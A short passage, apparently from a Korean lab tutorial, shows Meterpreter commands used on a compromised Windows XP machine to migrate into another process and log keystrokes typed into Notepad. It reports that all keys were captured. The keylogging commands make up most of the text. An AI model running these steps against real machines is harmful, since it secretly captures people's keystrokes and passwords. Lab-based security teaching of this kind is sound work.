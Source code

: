```
meterpreter > ps
meterpreter > migrate 256
meterpreter > getuid
meterpreter > keyscan_start
```

이제 다시 WinXP의 메모장으로 돌아가서 다른 내용을 작성해보자

![4_39](./image4/15.png)

```
meterpreter > keyscan_dump
meterpreter > keyscan_stop
```

결과창을 확인해보자!

작성한 텍스트 뿐만 아니라 눌러진 모든 key가 순서대로 출력되었다.(backspace, right shift ..)

![4_40](./image4/16.png)
